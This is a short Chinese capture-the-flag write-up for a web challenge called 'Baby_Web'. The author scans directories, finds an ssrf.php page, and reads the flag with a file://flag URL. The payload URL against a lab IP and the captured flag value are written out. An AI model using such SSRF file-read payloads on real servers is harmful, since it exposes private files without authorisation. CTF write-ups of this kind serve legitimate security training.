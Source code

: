 # Baby_Web

> 目录扫描,SSRF

## 思路分析

> 打开网址,提示不是内部用户,然后一直尝试伪造请求头,一直无果.这次忘记扫描目录了,扫描目录能发现一个ssrf.php的页面,能输入一个地址,直接输入file://flag获取flag.话说CTF题目真是越来越看不懂了.

## payload

> http://61.147.171.105:54204/ssrf.php?url=file%3A%2F%2Fflag

## flag

> cyberpeace{eef1b1ac44d33fb61f4f16dc8747540c}